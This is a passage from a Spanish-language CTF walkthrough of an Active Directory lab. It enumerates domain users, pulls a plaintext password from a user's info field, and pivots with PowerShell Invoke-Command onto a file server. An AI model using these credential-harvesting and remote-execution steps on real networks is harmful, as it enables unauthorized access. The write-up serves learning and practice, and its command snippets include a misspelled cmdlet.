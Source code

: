 ```powershell
instancetype          : 4
usncreated            : 12610
objectguid            : 8ea0a902-110d-46ec-98b4-825d392c687c
sn                    : 923a
lastlogoff            : 12/31/1600 4:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=fulcrum,DC=local
dscorepropagationdata : {5/8/2022 7:10:32 AM, 1/1/1601 12:00:00 AM}
givenname             : 923a
c                     : UK
memberof              : CN=Domain Admins,CN=Users,DC=fulcrum,DC=local
lastlogon             : 12/31/1600 4:00:00 PM
streetaddress         : unknown
badpwdcount           : 0
cn                    : 923a
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 5/8/2022 7:02:38 AM
primarygroupid        : 513
pwdlastset            : 5/8/2022 12:02:38 AM
usnchanged            : 12813
postalcode            : 12345
```

----------
#### Information Leakage - Domain User Password 
Bien, pues listando todos los usuarios, llegamos a dar con una password:
```powershell
PS> Get-DomainUser -Credential $Cred BTables | select givenname, info

givenname info
--------- ----
BTables   Password set to ++FileServerLogon12345++
```

------------
#### PIVOTING 2 - Using Invoke-Command to execute commands on another Windows server  
La contraseña encontrada anteriormente nos da una pequeña pista para donde tirar a apartir de aqui. En ella, vemos que esta la palabra `FileServer` nos hace pensar que hay otro dominio que pudiera tener como nombe `file.fulcrum.local`, si le lanzamos un ping a esa dirección vemos que si resuelve:
![[Pasted image 20230812024004.png]]

Con posibles credenciales validas para el usuario en este dominio, podemos intentar tirar de **Invoke-Command** para ejecutar comandos en el dominio como el usuario **BTables**. Lo primero que haremos sera pasar la contraseña a **SecureString**:
```powershell
PS> $password = ConverTo-SecureString '++FileServerLogon12345++' -AsPlainText -Force
PS> $cred = New-Object System.Management.Automation.PSCredential('FULCRUM\BTables', $password)
```

Con la credecial creada, ya podriamos intentar ejecutar comandos:
```powershell
PS> Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock { whoami }
```
